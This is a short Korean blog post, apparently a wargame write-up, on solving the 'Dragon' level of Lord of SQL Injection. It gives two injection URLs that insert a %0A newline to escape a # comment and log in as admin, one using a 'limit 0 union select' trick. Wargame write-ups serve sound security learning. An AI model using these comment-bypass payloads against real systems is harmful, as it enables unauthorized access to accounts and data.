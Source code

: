```yaml
---
layout: post
title: LOS Dragon
date: 2015-08-16 23:05:00 +0900
category: Hacking 
---
```

```
http://leaveret.kr/los/dragon_51996aa769df79afbf79eb4d66dbcef6.php?pw=%27%0A%20or%20id=%27admin%27%23
```



정확히는 기억안나지만 #은 한줄을 주석처리하는 것이다

이떄 중간에 %0A 개행문자를 넣어서 주석처리를 우회하는 문제로 기억한다. 

url이 달라서 안맞지만 PayLoad는 저거 아마도?



최근 다시 풀어보니 쿼리가 안먹힌다... 뭐지?



```
http://los.sandbox.cash/chall/dragon_c1577dc8b003a4f163cab14e8d92510b.php?pw=%0Alimit%200%20union%20select%20%27admin
```

일단 %0a를 이용해 개행문자를 넣어주는 것은 맞다 

```
%0Alimit 0 union select 'admin
```


limit 0 해서 결과값이 없게 한다음 ```union select 'admin``` 을 넣어주면 된다.






